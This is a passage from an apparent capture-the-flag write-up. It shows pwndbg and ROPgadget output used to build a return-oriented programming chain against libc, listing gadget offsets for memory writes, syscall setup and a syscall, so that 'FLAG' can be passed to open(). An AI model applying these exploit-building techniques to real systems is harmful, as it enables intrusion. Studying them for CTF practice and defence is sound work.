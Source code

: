 ```
0x6003f3
1 pattern found.
pwndbg> x/s 0x6003f3
0x6003f3:       "main"
```

ropgadget can give some really nice stuff!!

```
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --ropchain
```

this is only a small part of its output... but this is how i could write `FLAG` into the open argument!!

```
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x4e132 mov qword ptr [rsi], rdx ; ret
        [+] Gadget found: 0x28ed9 pop rsi ; ret
        [+] Gadget found: 0xfdc9d pop rdx ; ret
        [-] Can't find the 'xor rdx, rdx' gadget. Try with another 'mov [reg], reg'

        [+] Gadget found: 0x122c2d mov qword ptr [rsi], rdi ; ret
        [+] Gadget found: 0x28ed9 pop rsi ; ret
        [+] Gadget found: 0x27725 pop rdi ; ret
        [-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

        [+] Gadget found: 0x9ea31 mov qword ptr [rdx], rcx ; ret
        [+] Gadget found: 0xfdc9d pop rdx ; ret
        [+] Gadget found: 0x101e17 pop rcx ; ret
        [-] Can't find the 'xor rcx, rcx' gadget. Try with another 'mov [reg], reg'

        [+] Gadget found: 0x352ec mov qword ptr [rdx], rax ; ret
        [+] Gadget found: 0xfdc9d pop rdx ; ret
        [+] Gadget found: 0x3f0a7 pop rax ; ret
        [+] Gadget found: 0xaf7c5 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

        [+] Gadget found: 0xaf7c5 xor rax, rax ; ret
        [+] Gadget found: 0xc23d0 add rax, 1 ; ret
        [+] Gadget found: 0x9ba6b add eax, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

        [+] Gadget found: 0x27725 pop rdi ; ret
        [+] Gadget found: 0x28ed9 pop rsi ; ret
        [+] Gadget found: 0xfdc9d pop rdx ; ret

- Step 4 -- Syscall gadget

        [+] Gadget found: 0x26428 syscall

- Step 5 -- Build the ROP chain
```
